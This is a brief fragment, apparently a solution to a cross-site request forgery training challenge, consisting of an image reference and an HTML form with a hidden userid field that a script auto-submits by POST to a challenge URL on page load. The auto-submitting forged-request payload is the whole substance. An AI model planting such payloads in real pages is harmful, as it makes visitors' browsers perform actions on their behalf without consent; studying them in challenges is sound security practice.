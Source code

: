 <form name="csrfForm" action="https://www.rhke.github.io/user/csrfchallengetwo/plusplus/" method="POST">
 <input type="hidden" name="userid" value="1aba47aac38152ca62e98427d985e8bf907d60a2" />
 <input type="submit"/>
</form>
<script>
 document.csrfForm.submit();
</script>